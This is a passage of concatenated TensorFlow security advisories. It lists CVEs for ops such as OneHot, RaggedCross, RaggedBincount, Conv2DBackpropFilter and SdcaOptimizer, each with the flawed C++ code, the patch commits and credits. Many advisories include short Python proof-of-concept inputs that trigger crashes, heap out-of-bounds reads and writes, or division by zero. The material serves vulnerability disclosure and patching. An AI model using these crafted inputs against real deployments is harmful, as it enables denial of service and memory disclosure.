guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-088: Division by zero in TFLite's implementation of `OneHot`

### CVE Number
CVE-2021-29600

### Impact
The implementation of the `OneHot` TFLite operator is [vulnerable to a
division by zero
error](https://github.com/tensorflow/tensorflow/blob/f61c57bd425878be108ec787f4d96390579fb83e/tensorflow/lite/kernels/one_hot.cc#L68-L72):

```cc
int prefix_dim_size = 1;
for (int i = 0; i < op_context.axis; ++i) {
  prefix_dim_size *= op_context.indices->dims->data[i];
}
const int suffix_dim_size = NumElements(op_context.indices) / prefix_dim_size;
```

An attacker can craft a model such that at least one of the dimensions of
`indices` would be 0. In turn, the `prefix_dim_size` value would become 0.

### Patches
We have patched the issue in GitHub commit
[3ebedd7e345453d68e279cfc3e4072648e5e12e5](https://github.com/tensorflow/tensorflow/commit/3ebedd7e345453d68e279cfc3e4072648e5e12e5).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-021: Heap out of bounds read in `RaggedCross`

### CVE Number
CVE-2021-29532

### Impact
An attacker can force accesses outside the bounds of heap allocated arrays by
passing in invalid tensor values to `tf.raw_ops.RaggedCross`:

```python
import tensorflow as tf

ragged_values = []
ragged_row_splits = []
sparse_indices = []
sparse_values = []
sparse_shape = []

dense_inputs_elem = tf.constant([], shape=[92, 0], dtype=tf.int64)
dense_inputs = [dense_inputs_elem]

input_order = "R"
hashed_output = False
num_buckets = 0
hash_key = 0

tf.raw_ops.RaggedCross(ragged_values=ragged_values,
    ragged_row_splits=ragged_row_splits,
    sparse_indices=sparse_indices,
    sparse_values=sparse_values,
    sparse_shape=sparse_shape,
    dense_inputs=dense_inputs,
    input_order=input_order,
    hashed_output=hashed_output,
    num_buckets=num_buckets,
    hash_key=hash_key,
    out_values_type=tf.int64,
    out_row_splits_type=tf.int64)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/efea03b38fb8d3b81762237dc85e579cc5fc6e87/tensorflow/core/kernels/ragged_cross_op.cc#L456-L487)
lacks validation for the user supplied arguments:

```cc
int next_ragged = 0;
int next_sparse = 0;
int next_dense = 0;
for (char c : input_order_) {
  if (c == 'R') {
    TF_RETURN_IF_ERROR(BuildRaggedFeatureReader(
        ragged_values_list[next_ragged], ragged_splits_list[next_ragged],
        features));
    next_ragged++;
  } else if (c == 'S') {
    TF_RETURN_IF_ERROR(BuildSparseFeatureReader(
        sparse_indices_list[next_sparse], sparse_values_list[next_sparse],
        batch_size, features));
    next_sparse++;
  } else if (c == 'D') {
    TF_RETURN_IF_ERROR(
        BuildDenseFeatureReader(dense_list[next_dense++], features));
  }
  ...
}
```

Each of the above branches call a helper function after accessing array elements
via a `*_list[next_*]` pattern, followed by incrementing the `next_*` index.
However, as there is no validation that the `next_*` values are in the valid
range for the corresponding `*_list` arrays, this results in heap OOB reads.

### Patches
We have patched the issue in GitHub commit
[44b7f486c0143f68b56c34e2d01e146ee445134a](https://github.com/tensorflow/tensorflow/commit/44b7f486c0143f68b56c34e2d01e146ee445134a).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
## TFSA-2018-005: Old Snappy Library Usage Resulting in Memcpy Parameter Overlap

### CVE Number

CVE-2018-7577

### Issue Description

TensorFlow checkpoint meta file uses Google's
[snappy](https://github.com/google/snappy) compression/decompression library.
There is a memcpy-param-overlap issue in the version of snappy currently used by
TensorFlow.

### Impact

A maliciously crafted checkpoint meta file could cause TensorFlow to crash or
read from other parts of its process memory.

### Vulnerable Versions

TensorFlow 1.1.0, 1.2.0, 1.2.1, 1.3.0, 1.3.1, 1.4.0, 1.4.1, 1.5.0, 1.5.1, 1.6.0, 1.7.0

### Mitigation

We have patched the vulnerability in GitHub commit
[dfa9921e](https://github.com/tensorflow/tensorflow/commit/dfa9921e6343727b05f42f8d4a918b19528ff994)
by upgrading the version of the snappy library used by TensorFlow to v1.1.7.

If users are loading untrusted checkpoints in TensorFlow, we encourage users to
apply the patch to upgrade snappy.

Additionally, we have released TensorFlow version 1.7.1 to mitigate this
vulnerability.

### Credits

This issue was discovered by the Blade Team of Tencent.
## TFSA-2021-032: `CHECK`-fail in `CTCGreedyDecoder`

### CVE Number
CVE-2021-29543

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
`tf.raw_ops.CTCGreedyDecoder`:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[18, 2, 0], dtype=tf.float32)
sequence_length = tf.constant([-100, 17], shape=[2], dtype=tf.int32)
merge_repeated = False

tf.raw_ops.CTCGreedyDecoder(inputs=inputs, sequence_length=sequence_length, merge_repeated=merge_repeated)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/1615440b17b364b875eb06f43d087381f1460a65/tensorflow/core/kernels/ctc_decoder_ops.cc#L37-L50)
has a `CHECK_LT` inserted to validate some invariants. When this condition is
false, the program aborts, instead of returning a valid error to the user. This
abnormal termination can be weaponized in denial of service attacks.

### Patches
We have patched the issue in GitHub commit
[ea3b43e98c32c97b35d52b4c66f9107452ca8fb2](https://github.com/tensorflow/tensorflow/commit/ea3b43e98c32c97b35d52b4c66f9107452ca8fb2).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-002: Heap out of bounds write in `RaggedBinCount`

### CVE Number
CVE-2021-29514

### Impact
If the `splits` argument of `RaggedBincount` does not specify a valid
[`SparseTensor`](https://www.tensorflow.org/api_docs/python/tf/sparse/SparseTensor),
then an attacker can trigger a heap buffer overflow:

```python
import tensorflow as tf
tf.raw_ops.RaggedBincount(splits=[7,8], values= [5, 16, 51, 76, 29, 27, 54, 95],\
                          size= 59, weights= [0, 0, 0, 0, 0, 0, 0, 0],\
                          binary_output=False)
```

This will cause a read from outside the bounds of the `splits` tensor buffer in
the [implementation of the `RaggedBincount`
op](https://github.com/tensorflow/tensorflow/blob/8b677d79167799f71c42fd3fa074476e0295413a/tensorflow/core/kernels/bincount_op.cc#L430-L446):

```cc
    for (int idx = 0; idx < num_values; ++idx) {
      while (idx >= splits(batch_idx)) {
        batch_idx++;
      }
      ...
      if (bin < size) {
        if (binary_output_) {
          out(batch_idx - 1, bin) = T(1);
        } else {
          T value = (weights_size > 0) ? weights(idx) : T(1);
          out(batch_idx - 1, bin) += value;
        }
      }
    }
```

Before the `for` loop, `batch_idx` is set to 0. The attacker sets `splits(0)` to
be 7, hence the `while` loop does not execute and `batch_idx` remains 0. This
then results in writing to `out(-1, bin)`, which is before the heap allocated
buffer for the output tensor.

### Patches
We have patched the issue in GitHub commit
[eebb96c2830d48597d055d247c0e9aebaea94cd5](https://github.com/tensorflow/tensorflow/commit/eebb96c2830d48597d055d247c0e9aebaea94cd5).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2 and TensorFlow 2.3.3, as these are also affected.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-071: `CHECK`-fail due to integer overflow

### CVE Number
CVE-2021-29584

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
caused by an integer overflow in constructing a new tensor shape:

```python
import tensorflow as tf

input_layer = 2**60-1
sparse_data = tf.raw_ops.SparseSplit(
    split_dim=1,
    indices=[(0, 0), (0, 1), (0, 2),
    (4, 3), (5, 0), (5, 1)],
    values=[1.0, 1.0, 1.0, 1.0, 1.0, 1.0],
    shape=(input_layer, input_layer),
    num_split=2,
    name=None
    )
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/0908c2f2397c099338b901b067f6495a5b96760b/tensorflow/core/kernels/sparse_split_op.cc#L66-L70)
builds a dense shape without checking that the dimensions would not result in
overflow:

```cc
sparse::SparseTensor sparse_tensor;
OP_REQUIRES_OK(context,
               sparse::SparseTensor::Create(
                 input_indices, input_values,
                 TensorShape(input_shape.vec<int64>()), &sparse_tensor));
```

The [`TensorShape`
constructor](https://github.com/tensorflow/tensorflow/blob/6f9896890c4c703ae0a0845394086e2e1e523299/tensorflow/core/framework/tensor_shape.cc#L183-L188)
uses a `CHECK` operation which triggers when
[`InitDims`](https://github.com/tensorflow/tensorflow/blob/6f9896890c4c703ae0a0845394086e2e1e523299/tensorflow/core/framework/tensor_shape.cc#L212-L296)
returns a non-OK status.

```cc
template <class Shape>
TensorShapeBase<Shape>::TensorShapeBase(gtl::ArraySlice<int64> dim_sizes) {
  set_tag(REP16);
  set_data_type(DT_INVALID);
  TF_CHECK_OK(InitDims(dim_sizes));
}
```

In our scenario, this occurs when adding a dimension from the argument results
in overflow:

```cc
template <class Shape>
Status TensorShapeBase<Shape>::InitDims(gtl::ArraySlice<int64> dim_sizes) {
  ...
  Status status = Status::OK();
  for (int64 s : dim_sizes) {
    status.Update(AddDimWithStatus(internal::SubtleMustCopy(s)));
    if (!status.ok()) {
      return status;
    }
  }
}

template <class Shape>
Status TensorShapeBase<Shape>::AddDimWithStatus(int64 size) {
  ...
  int64 new_num_elements;
  if (kIsPartial && (num_elements() < 0 || size < 0)) {
    new_num_elements = -1;
  } else {
    new_num_elements = MultiplyWithoutOverflow(num_elements(), size);
    if (TF_PREDICT_FALSE(new_num_elements < 0)) {
        return errors::Internal("Encountered overflow when multiplying ",
                                num_elements(), " with ", size,
                                ", result: ", new_num_elements);
      }
  }
  ...
}
```

This is a legacy implementation of the constructor and operations should
use `BuildTensorShapeBase` or `AddDimWithStatus` to prevent `CHECK`-failures in
the presence of overflows.

### Patches
We have patched the issue in GitHub commit
[4c0ee937c0f61c4fc5f5d32d9bb4c67428012a60](https://github.com/tensorflow/tensorflow/commit/4c0ee937c0f61c4fc5f5d32d9bb4c67428012a60).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by researchers from University of Virginia
and University of California, Santa Barbara.
## TFSA-2018-004: Checkpoint Meta File Out-of-Bounds Read

### CVE Number

CVE-2018-7575

### Issue Description

The block size in meta file might contain a large int64 value which causes
an integer overflow upon addition. Subsequent code using n as index may cause
an out-of-bounds read.

### Impact

A maliciously crafted meta checkpoint could be used to cause the TensorFlow
process to perform an out of bounds read on in process memory.

### Vulnerable Versions

TensorFlow 1.0.0, 1.0.1, 1.1.0, 1.2.0, 1.2.1, 1.3.0, 1.3.1, 1.4.0, 1.4.1, 1.5.0, 1.5.1, 1.6.0, 1.7.0

### Mitigation

We have patched the vulnerability in GitHub commit
[d107fee1](https://github.com/tensorflow/tensorflow/commit/d107fee1e4a9a4462f01564798d345802acc2aef).
If users are running TensorFlow on untrusted meta checkpoints, such as those
downloaded from the Internet, in production or on untrusted data, they are
encouraged to apply this patch.

Additionally, we have released TensorFlow version 1.7.1 to mitigate this
vulnerability.

### Credits

This issue was discovered by the Blade Team of Tencent.
## TFSA-2021-148: Incomplete validation in `MaxPoolGrad`

### CVE Number
CVE-2021-37674

### Impact
An attacker can trigger a denial of service via a segmentation fault in
`tf.raw_ops.MaxPoolGrad` caused by missing validation:

```python
import tensorflow as tf

tf.raw_ops.MaxPoolGrad(
  orig_input = tf.constant([], shape=[3, 0, 0, 2], dtype=tf.float32),
  orig_output = tf.constant([], shape=[3, 0, 0, 2], dtype=tf.float32),
  grad = tf.constant([], shape=[3, 0, 0, 2], dtype=tf.float32),
  ksize = [1, 16, 16, 1],
  strides = [1, 16, 18, 1],
  padding = "EXPLICIT",
  explicit_paddings = [0, 0, 14, 3, 15, 5, 0, 0])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/maxpooling_op.cc)
misses some validation for the `orig_input` and `orig_output` tensors.

The fixes for
[CVE-2021-29579](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-068.md)
were incomplete.

### Patches
We have patched the issue in GitHub commit
[136b51f10903e044308cf77117c0ed9871350475](https://github.com/tensorflow/tensorflow/commit/136b51f10903e044308cf77117c0ed9871350475).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
## TFSA-2021-011: Division by 0 in `Conv3DBackprop*`

### CVE Number
CVE-2021-29522

### Impact
The `tf.raw_ops.Conv3DBackprop*` operations fail to validate that the input
tensors are not empty. In turn, this would result in a division by 0:

```python
import tensorflow as tf

input_sizes = tf.constant([0, 0, 0, 0, 0], shape=[5], dtype=tf.int32)
filter_tensor = tf.constant([], shape=[0, 0, 0, 1, 0], dtype=tf.float32)
out_backprop = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropInputV2(input_sizes=input_sizes, filter=filter_tensor, out_backprop=out_backprop, strides=[1, 1, 1, 1, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```
```python
import tensorflow as tf

input_sizes = tf.constant([1], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
filter_tensor = tf.constant([0, 0, 0, 1, 0], shape=[5], dtype=tf.int32)
out_backprop = tf.constant([], shape=[1, 1, 1, 1, 0], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropFilterV2(input=input_sizes, filter_sizes=filter_tensor, out_backprop=out_backprop, strides=[1, 1, 1, 1, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/a91bb59769f19146d5a0c20060244378e878f140/tensorflow/core/kernels/conv_grad_ops_3d.cc#L430-L450)
does not check that the divisor used in computing the shard size is not zero:

```cc
  const int64 size_A = output_image_size * dims.out_depth;
  const int64 size_B = filter_total_size * dims.out_depth;
  const int64 size_C = output_image_size * filter_total_size;
  const int64 work_unit_size = size_A + size_B + size_C;
  ...
  const size_t shard_size =
      use_parallel_contraction
        ? 1
        : (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

Thus, if attacker controls the input sizes, they can trigger a denial of service
via a division by zero error.

### Patches
We have patched the issue in GitHub commit
[311403edbc9816df80274bd1ea8b3c0c0f22c3fa](https://github.com/tensorflow/tensorflow/commit/311403edbc9816df80274bd1ea8b3c0c0f22c3fa).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-042: Division by 0 in `DenseCountSparseOutput`

### CVE Number
CVE-2021-29554

### Impact
An attacker can cause a denial of service via a FPE runtime error in
`tf.raw_ops.DenseCountSparseOutput`:

```python
import tensorflow as tf

values = tf.constant([], shape=[0, 0], dtype=tf.int64)
weights = tf.constant([])

tf.raw_ops.DenseCountSparseOutput(
  values=values, weights=weights,
  minlength=-1, maxlength=58, binary_output=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/efff014f3b2d8ef6141da30c806faf141297eca1/tensorflow/core/kernels/count_ops.cc#L123-L127)
computes a divisor value from user data but does not check that the result is 0
before doing the division:

```cc
int num_batch_elements = 1;
for (int i = 0; i < num_batch_dimensions; ++i) {
  num_batch_elements *= data.shape().dim_size(i);
}
int num_value_elements = data.shape().num_elements() / num_batch_elements;
```

Since `data` is given by the `values` argument, `num_batch_elements` is 0.

### Patches
We have patched the issue in GitHub commit
[da5ff2daf618591f64b2b62d9d9803951b945e9f](https://github.com/tensorflow/tensorflow/commit/da5ff2daf618591f64b2b62d9d9803951b945e9f).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, and TensorFlow 2.3.3, as these are also affected.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-117: `std::abort` raised from `TensorListReserve`

### CVE Number
CVE-2021-37644

### Impact
Providing a negative element to `num_elements` list argument of
`tf.raw_ops.TensorListReserve` causes the runtime to abort the process due to
reallocating a `std::vector` to have a negative number of elements:

```python
import tensorflow as tf

tf.raw_ops.TensorListReserve(
  element_shape = tf.constant([1]),
  num_elements=tf.constant([-1]),
  element_dtype = tf.int32)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/list_kernels.cc#L312)
calls `std::vector.resize()` with the new size controlled by input given by the
user, without checking that this input is valid.

### Patches
We have patched the issue in GitHub commit
[8a6e874437670045e6c7dc6154c7412b4a2135e2](https://github.com/tensorflow/tensorflow/commit/8a6e874437670045e6c7dc6154c7412b4a2135e2).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-146: Heap OOB in `SdcaOptimizerV2`

### CVE Number
CVE-2021-37672

### Impact
An attacker can read from outside of bounds of heap allocated data by sending
specially crafted illegal arguments to `tf.raw_ops.SdcaOptimizerV2`:

```python
import tensorflow as tf

tf.raw_ops.SdcaOptimizerV2(
  sparse_example_indices=[[1]],
  sparse_feature_indices=[[1]],
  sparse_feature_values=[[1.0,2.0]],
  dense_features=[[1.0]],
  example_weights=[1.0],
  example_labels=[],
  sparse_indices=[1],
  sparse_weights=[1.0],
  dense_weights=[[1.0]],
  example_state_data=[[100.0,100.0,100.0,100.0]],
  loss_type='logistic_loss',
  l1=100.0,
  l2=100.0,
  num_loss_partitions=1,
  num_inner_iterations=1,
  adaptive=True)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/sdca_internal.cc#L320-L353)
does not check that the length of `example_labels` is the same as the number of
examples.

### Patches
We have patched the issue in GitHub commit
[a4e138660270e7599793fa438cd7b2fc2ce215a6](https://github.com/tensorflow/tensorflow/commit/a4e138660270e7599793fa438cd7b2fc2ce215a6).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-199: Crash in `max_pool3d` when size argument is 0 or negative

### CVE Number
CVE-2021-41196

### Impact
The Keras pooling layers can trigger a segfault if the size of the pool is 0 or if a dimension is negative:

```python
import tensorflow as tf

pool_size = [2, 2, 0]
layer = tf.keras.layers.MaxPooling3D(strides=1, pool_size=pool_size)
input_tensor = tf.random.uniform([3, 4, 10, 11, 12], dtype=tf.float32)
res = layer(input_tensor)
```

This is due to the TensorFlow's implementation of pooling operations where the values in the sliding window are not checked to be strictly positive.

### Patches
We have patched the issue in GitHub commit [12b1ff82b3f26ff8de17e58703231d5a02ef1b8b](https://github.com/tensorflow/tensorflow/commit/12b1ff82b3f26ff8de17e58703231d5a02ef1b8b) (merging [#51975](https://github.com/tensorflow/tensorflow/pull/51975)).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported externally via a [GitHub issue](https://github.com/tensorflow/tensorflow/issues/51936).
## TFSA-2021-017: Division by 0 in `QuantizedMul`

### CVE Number
CVE-2021-29528

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.QuantizedMul`:

```python
import tensorflow as tf

x = tf.zeros([4, 1], dtype=tf.quint8)
y = tf.constant([], dtype=tf.quint8)
min_x = tf.constant(0.0)
max_x = tf.constant(0.0010000000474974513)
min_y = tf.constant(0.0)
max_y = tf.constant(0.0010000000474974513)

tf.raw_ops.QuantizedMul(x=x, y=y, min_x=min_x, max_x=max_x, min_y=min_y, max_y=max_y)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/55900e961ed4a23b438392024912154a2c2f5e85/tensorflow/core/kernels/quantized_mul_op.cc#L188-L198) does a division by a quantity that is controlled by the caller:

```cc
template <class T, class Toutput>
void VectorTensorMultiply(const T* vector_data, int32 vector_offset,
                          int64 vector_num_elements, const T* tensor_data,
                          int32 tensor_offset, int64 tensor_num_elements,
                          Toutput* output) {
  for (int i = 0; i < tensor_num_elements; ++i) {
    const int64 vector_i = i % vector_num_elements;
    ...
  }
}
```

### Patches
We have patched the issue in GitHub commit
[a1b11d2fdd1e51bfe18bb1ede804f60abfa92da6](https://github.com/tensorflow/tensorflow/commit/a1b11d2fdd1e51bfe18bb1ede804f60abfa92da6).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.

## TFSA-2021-060: Reference binding to nullptr in `SdcaOptimizer`

### CVE Number
CVE-2021-29572

### Impact
The implementation of `tf.raw_ops.SdcaOptimizer` triggers undefined behavior
due to dereferencing a null pointer:

```python
import tensorflow as tf

sparse_example_indices = [tf.constant((0), dtype=tf.int64), tf.constant((0), dtype=tf.int64)]
sparse_feature_indices = [tf.constant([], shape=[0, 0, 0, 0], dtype=tf.int64), tf.constant((0), dtype=tf.int64)]
sparse_feature_values = []

dense_features = []
dense_weights = []

example_weights = tf.constant((0.0), dtype=tf.float32)
example_labels = tf.constant((0.0), dtype=tf.float32)

sparse_indices = [tf.constant((0), dtype=tf.int64), tf.constant((0), dtype=tf.int64)]
sparse_weights = [tf.constant((0.0), dtype=tf.float32), tf.constant((0.0), dtype=tf.float32)]

example_state_data = tf.constant([0.0, 0.0, 0.0, 0.0], shape=[1, 4], dtype=tf.float32)

tf.raw_ops.SdcaOptimizer(
  sparse_example_indices=sparse_example_indices,
  sparse_feature_indices=sparse_feature_indices,
  sparse_feature_values=sparse_feature_values, dense_features=dense_features,
  example_weights=example_weights, example_labels=example_labels,
  sparse_indices=sparse_indices, sparse_weights=sparse_weights,
  dense_weights=dense_weights, example_state_data=example_state_data,
  loss_type="logistic_loss", l1=0.0, l2=0.0, num_loss_partitions=1,
  num_inner_iterations=1, adaptative=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/60a45c8b6192a4699f2e2709a2645a751d435cc3/tensorflow/core/kernels/sdca_internal.cc)
does not validate that the user supplied arguments satisfy all [constraints
expected by the
op](https://www.tensorflow.org/api_docs/python/tf/raw_ops/SdcaOptimizer).

### Patches
We have patched the issue in GitHub commit
[f7cc8755ac6683131fdfa7a8a121f9d7a9dec6fb](https://github.com/tensorflow/tensorflow/commit/f7cc8755ac6683131fdfa7a8a121f9d7a9dec6fb).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-182: Reference binding to `nullptr` in `tf.ragged.cross`

### CVE Number
CVE-2021-41214

### Impact
The [shape inference code for `tf.ragged.cross`](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/ragged_array_ops.cc#L64) has an undefined behavior due to binding a reference to `nullptr`. In the following scenario, this results in a crash:

```python
import tensorflow as tf

@tf.function
def test():
  y = tf.ragged.cross([tf.ragged.constant([['1']]),'2'])
  return y

test()
```

### Patches
We have patched the issue in GitHub commit [fa6b7782fbb14aa08d767bc799c531f5e1fb3bb8](https://github.com/tensorflow/tensorflow/commit/fa6b7782fbb14aa08d767bc799c531f5e1fb3bb8).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-028: Heap buffer overflow in `Conv2DBackpropFilter`

### CVE Number
CVE-2021-29540

### Impact
An attacker can cause a heap buffer overflow to occur in `Conv2DBackpropFilter`:

```python
import tensorflow as tf

input_tensor = tf.constant([386.078431372549, 386.07843139643234],
                           shape=[1, 1, 1, 2], dtype=tf.float32)
filter_sizes = tf.constant([1, 1, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([386.078431372549], shape=[1, 1, 1, 1],
                           dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 66, 49, 1],
  use_cudnn_on_gpu=True,
  padding='VALID',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

Alternatively, passing empty tensors also results in similar behavior:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 1, 1, 5], dtype=tf.float32)
filter_sizes = tf.constant([3, 8, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([], shape=[0, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 66, 49, 1],
  use_cudnn_on_gpu=True,
  padding='VALID',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/1b0296c3b8dd9bd948f924aa8cd62f87dbb7c3da/tensorflow/core/kernels/conv_grad_filter_ops.cc#L495-L497)
computes the size of the filter tensor but does not validate that it matches the
number of elements in `filter_sizes`. Later, when reading/writing to this
buffer, code uses the value computed here, instead of the number of elements in
the tensor.

### Patches
We have patched the issue in GitHub commit
[c570e2ecfc822941335ad48f6e10df4e21f11c96](https://github.com/tensorflow/tensorflow/commit/c570e2ecfc822941335ad48f6e10df4e21f11c96).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-039: OOB read in `MatrixTriangularSolve`

### CVE Number
CVE-2021-29551

### Impact
The implementation of
[`MatrixTriangularSolve`](https://github.com/tensorflow/tensorflow/blob/8cae746d8449c7dda5298327353d68613f16e798/tensorflow/core/kernels/linalg/matrix_triangular_solve_op_impl.h#L160-L240)
fails to terminate kernel execution if one validation condition fails:

```cc
void ValidateInputTensors(OpKernelContext* ctx, const Tensor& in0,
                            const Tensor& in1) override {
  OP_REQUIRES(
